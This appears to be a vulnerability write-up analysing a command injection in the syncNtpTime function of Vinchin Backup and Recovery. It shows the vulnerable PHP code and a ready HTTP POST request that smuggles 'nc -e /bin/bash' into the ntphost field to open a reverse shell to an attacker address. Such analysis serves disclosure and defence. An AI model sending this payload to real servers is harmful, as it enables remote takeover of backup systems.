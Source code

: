 1. **Parameter Handling**:
   The function accepts an array `$params`, extracting the `ntphost` key:
   ```php
   $ntphost = $params['ntphost'];
   ```

2. **Initial NTP Service Stop Command**:
   It begins by stopping the NTP service to allow manual synchronization:
   ```php
   $cmd = "systemctl stop ntpd";
   ```

3. **Manual Synchronization Command**:
   The critical part is where it attempts to synchronize the system's time manually:
   ```php
   $cmd = "ntpdate " . $ntphost;
   ```

   Here, the `$ntphost` variable, derived from user input, is concatenated directly into the command line string. This introduces a command injection vulnerability since there are no checks or sanitization on the `ntphost` parameter.

4. **Execution of Command**:
   The concatenated command is executed:
   ```php
   exec($cmd, $info);
   ```

### Exploitation:

The vulnerability can be exploited by injecting commands into the `ntphost` parameter. When the function concatenates this parameter into the command line, the injected command is executed with the privileges of the web server's process.

#### Exploit Example:

An attacker can send a specially crafted HTTP POST request to trigger this vulnerability:

```http
POST /api/ HTTP/1.1
Host: [Vinchin Server IP]
Cookie: [Session Cookie]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=syncNtpTime&p={"ntphost":"time.nist.gov;nc -e /bin/bash 192.168.1.5 1338"}
```

In this request, the attacker has appended a command (`nc -e /bin/bash 192.168.1.5 1338`) to the `ntphost` parameter. This command sets up a reverse shell to the attacker's machine (`192.168.1.5`), allowing remote access to the server running the Vinchin Backup and Recovery system.

### Conclusion:

The `syncNtpTime` function's vulnerability is a classic example of command injection. The lack of proper input validation and sanitization allows an attacker to execute arbitrary commands on the server. This poses a severe security risk, potentially leading to full system compromise.
